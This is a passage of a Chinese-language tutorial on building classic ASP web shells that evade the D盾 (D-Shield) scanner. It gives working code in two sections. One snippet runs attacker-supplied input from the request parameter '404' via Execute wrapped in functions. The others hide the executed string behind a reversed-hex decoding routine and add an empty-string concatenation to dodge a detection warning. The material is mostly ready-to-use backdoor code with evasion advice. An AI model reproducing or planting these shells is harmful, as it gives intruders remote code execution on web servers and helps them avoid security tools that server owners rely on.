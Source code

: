 

# 0x04 函数

这个是那天D盾更新，无意间测试出来的，发现d盾对函数传入不是很敏感

```
<%

Function b():
    b = request("404")
End Function


Function f():
    eXecUTe(b())
End Function
f()

%>

```


# 0x05 加密

网上随便找了一段加密算法 但是测试发现D盾爆了一级，参数未知

```
<%
eXecUTe(gw_jiemi("920022008400D4002200820047003700560057001700560027000200C60016006700560077007600"))
function gw_jiemi(text)
    const key="gw"
    dim str : str=text
    dim str1
    dim str2 : str2=strreverse(str) 
    for i=1 to len(str2) step 4
        str1=str1 & ChrW(cint("&H" & mid(str2,i,4)))
    next
    gw_jiemi=mid(str1,len(key)+1,len(str)-len(key))
end function
%>

```



既然都提示我们参数的问题了，那么简单的干扰一下吧,连接个空字符

```
<%
eXecUTe(gw_jiemi("920022008400D4002200820047003700560057001700560027000200C60016006700560077007600")&"")
function gw_jiemi(text)
    const key="gw"
    dim str : str=text
    dim str1
    dim str2 : str2=strreverse(str) 
    for i=1 to len(str2) step 4
        str1=str1 & ChrW(cint("&H" & mid(str2,i,4)))
    next
    gw_jiemi=mid(str1,len(key)+1,len(str)-len(key))
end function
%>

```